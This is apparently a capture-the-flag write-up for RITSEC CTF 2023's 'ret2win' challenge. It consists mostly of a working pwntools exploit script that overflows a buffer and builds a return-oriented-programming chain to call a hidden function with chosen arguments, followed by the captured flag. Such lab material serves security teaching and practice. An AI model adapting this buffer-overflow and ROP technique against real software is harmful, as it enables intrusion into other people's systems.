 ![image](https://user-images.githubusercontent.com/63996033/229366510-82c04970-d584-4b07-bf92-628c8b1719dd.png)

[ret2win](https://github.com/jeromepalayoor/RITSEC-CTF-2023/blob/main/BIN-PWN/ret2win/ret2win)

Solution:
```py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        print("here")
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())


# Set up pwntools for the correct architecture
exe = './ret2win'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=True)
# Change logging level to help with debugging (error/warning/info/debug)
# context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

io = start()

# How many bytes to the instruction pointer (EIP)?
offset = 40

pop_rdi = 0x4012b3
pop_rsi_r15 = 0x4012b1

payload = flat({
    offset: [
        pop_rdi,  # Pop the next value to RDI
        0xcafebabe,
        pop_rsi_r15,  # Pop the next value to RSI (and junk into R15)
         0xc0debabe,
        0x0,
        # With params in correct registers, call hacked function
        elf.functions.supersecrettoplevelfunction
    ]
})


# Send the payload
io.sendline(payload)

# Receive the flag
io.interactive()

```

Flag: `RS{WHAT'S_A_CTF_WITH0UT_RET2WIN}`
